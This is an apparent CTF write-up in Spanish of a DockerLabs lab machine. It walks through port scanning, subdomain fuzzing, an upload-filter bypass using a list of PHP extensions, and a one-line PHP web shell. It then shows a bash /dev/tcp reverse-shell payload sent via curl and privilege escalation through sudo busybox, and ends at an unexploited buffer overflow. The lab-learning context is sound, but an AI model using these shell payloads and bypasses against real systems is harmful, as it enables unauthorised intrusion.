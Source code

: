 ## FASE DE ENUMERACIÓN
Hacemos un escaneo de puertos y servicios de la IP 
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
ORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
solo tenemos el puerto 80 abierto, mirammos con herramientas como whatweb etc y no veo nada interesante, me voy a la página y veo esta parte:
```
The default Debian document root is /var/www/5eEk3r
```
así pues empiezo a pensar en virtual hosting, así pues ejecuto lo siguiente:
```bash
sudo nano /etc/hosts
```
y añadp esta línea al final:
```bash
172.17.0.2      5eEk3r
```
después de realizar fuzzing de directorios y extensiones y no encontrar nada veo esta parte en el index.html:
```
The default Debian document root is /var/www/5eEk3r. You can make your own virtual hosts under /var/www.
```
así pues lo añado al etc/hosts
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r
```
y lo abro en el navegador, dádome esto:
```
Apache/2.4.62 (Debian) Server at 5eEk3r.dl Port 80
```
así pues añadimos de nuevo en el /etc/hosts lo encontrado:
```bash
sudo nano /etc/hosts
```
```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl
```
y viendo por donde van los tiros, voy a fuzzear si hay más subdomkinios:
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.5eek3r.dl" http://5eek3r.dl | tee dominios
```
## Explicación del comando:
1- wfuzz: Herramienta de fuzzing utilizada para buscar subdominios.

2- -c: Activar la coloración de salida en la terminal.

3- --hc=404: Ignorar respuestas con código de estado 404 (no encontrado).

4- --hh=10705: Ignorar respuestas con un tamaño de encabezado HTML de 10705 bytes.

5- -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt: Ruta al diccionario de subdominios a utilizar.

6- -H "Host: FUZZ.5eek3r.dl": Utiliza el encabezado Host con el marcador de posición FUZZ que será reemplazado por las entradas del diccionario.

7- http://5eek3r.dl: URL base a la que se realizarán las solicitudes.

8- | tee dominios: Redirige la salida tanto a la terminal como a un archivo llamado dominios.

Este comando realizará el fuzzing en busca de subdominios válidos de 5eek3r.dl utilizando el diccionario proporcionado, ignorando ciertos códigos de estado y tamaños de respuesta.
Los resultados serán guardados en el archivo dominios y también se mostrarán en la terminal.


obetengo como resultado:
```
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://5eek3r.dl/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                                                                                      
000010581:   400        10 L     35 W       301 Ch      "#mail"                                                                                                                                                                     
000042993:   200        101 L    75 W       932 Ch      "crosswords"
```
un 200 ok, pues lo introduzco en el /etc/hosts de nuevo, quedándome así:

```
172.17.0.2      5eEk3r www.5eEk3r 5eEk3r.dl crosswords.5eEk3r.dl
```

hago un fuzzing su solo encuentro index.php, miro su código fuente y al final veo esto:
```
http://crosswords.5eek3r.dl/index.php/
```
```
<! -- Al que contratamos para crear la web nos habló de algo llamado 'xss'... que será? -->
```

despues ver lograr inyectar un XSS y dar mil vueltas me doy cuenta que es un rabbithole, así pues me pongo a buscar más,
me acordé del tema de los dominios y volví a ellos.
```bash
wfuzz -c --hc=404 --hh=10705 -w /opt//SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.crosswords.5eEk3r.dl" http://5eek3r.dl
```
```
000000024:   200        103 L    189 W      2906 Ch     "admin"
```
así pués lo añadimos de nuevo al /etc/hosts, nuevo domion admin.crosswords.5eEk3r.dl

## FASE DE INTRUSIÓN:

vamos a la página y vemos un panel interesante, dónde puedo subir archivos, subo un archivo en php y me dice:
```
No se permiten archivos PHP, solo HTML.
```
voy a probar con varias extensiones de php con un pequeño diccionario y burpsuite:
```
php
phps
phar
pht
phtm
phtml
pgif
shtml
php2
php3
php4
php
php6
php7
phps
phps
pht
phtm
phtml
pgif
shtml
htaccess
phar
inc
hphp
ctp
module
```
el contenido algo sencillito:
```bash
<?php system($_GET['cmd']); ?>
```
y...entraron varias xD
hago una busqueda y parece ser que aquí no se han subido los archivos, así pues empiezo a mirar en los otros subdominios
y efectivamente en http://crosswords.5ee3r.dl están alojados, al menos "shell.phar" es verdad que de todos los subidos algunos no estaban:
así pues con nuestro amigo curl vamos a intentar hacernos una reverseshell, usaremos este payload:
```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```
pero hay que encodearlo para que de menos problemas y hacemos la peticion con curl:
```bash
curl "http://crosswords.5eek3r.dl/shell.phar?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27"
```
Por fin estamos dentro.

## ESCALADA DE PRIVILEGIOS


Lo primero tratamiento de la TTY:
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
primero miro si estoy en algún grupo con priviegios y nada, luego las variables de entorno y nada, pruebo:
```bash
sudo -l
```
```
User www-data may run the following commands on dockerlabs:
    (astu : astu) NOPASSWD: /usr/bin/busybox
```
miro en :
```bash
https://gtfobins.github.io/gtfobins/busybox/#sudo
```
información sobre el binario y ejecutando esto deberia escalar al usuario astu:
```bash
sudo -u astu /usr/bin/busybox sh
```

Ya somos astu, volvemos a mirar con "id" si estamos en algun grupo privilegiado, no es así, variable de entorno,
nada, sudo -l no tenemos credenciales, así pues toca mirar que podemos encontrar.
vamos al home de astu y hay una carpeta con un binario.
lo ejecutamos :
```bash
./bs64
```
Ingrese el texto: sadasd
c2FYXN
```
pues vamos a probar a ver si se trata de un bof:
```
./bs64
Ingrese el texto: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
YWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYWFYW=
Segmentation fault
```
Segmentation fault, se trata de un bof.

y hasta aquí he llegado porque no se hacer bof xD... tendré que ponerme a ello en un futuro.

